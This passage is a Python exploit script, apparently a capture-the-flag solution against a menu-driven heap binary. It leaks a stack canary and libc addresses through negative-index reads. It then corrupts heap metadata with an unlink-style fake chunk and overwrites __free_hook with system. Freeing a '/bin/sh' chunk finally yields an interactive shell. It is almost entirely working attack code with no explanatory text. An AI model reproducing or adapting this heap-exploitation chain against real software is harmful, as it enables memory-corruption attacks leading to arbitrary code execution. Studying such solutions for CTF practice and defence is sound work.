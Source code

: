 ```python
    ru('Index?')
    sl(str(idx))
    ru(':')
    se(content)
    ru('5.Exit')

def show(idx):
    sl('3')
    ru("Index?\n")
    sl(str(idx))

def delete(idx):
    sl('4')
    ru("Index?")
    sl(str(idx))
    ru('5.Exit')


ru('what\'s your name?')
se(p64(0)*3+p64(0x31))
ru('what\'s your info?')
se(p64(0x21)*6+cyclic(0x1d0-0x30)+p64(0x6022C1)+p64(0x0000006800000000)+p64(0x6020a0)+p64(0x0000006800000000))
ru('5.Exit')

show(-5)
canary = '\0'+ru('\n')[:-1]
ru('5.Exit')
delete(-4)
add(0x28)
edit(0,p64(0xdeadbeef)[:7])
add(0xf8)
add(0xf8)
add(0xf8)
edit(1,(p64(0)+p64(0xf1)+p64(0x6022f0-0x18)+p64(0x6022f0-0x10)).ljust(0xf0,'\0')+p64(0xf0))
delete(2)
edit(1,p64(0)+p64(0x6022e0)+p32(0x0)+p32(0x100)+p64(0x602080)+p32(0x0)+p32(0x100)+p64(0x6020A8)+p32(0x0)+p32(0x100)+p64(0x6022e0)+p32(0x0)+p32(0x100))
show(2)

libc = u64(ru('\n')[:-1]+'\0\0')-0x68
base = libc-0x3a5610
free_hook = base+0x3a77c8
system = base+0x41490
binsh = base+0x1633e8
ru('5.Exit')

edit(0,p64(0x6022e0)+p32(0x0)+p32(0x100)+p64(free_hook)+p32(0x0)+p32(0x100)+p64(binsh))
edit(1,p64(system))

sl('4')
ru("Index?")
sl('2')

print(hex(base))
p.interactive()
```

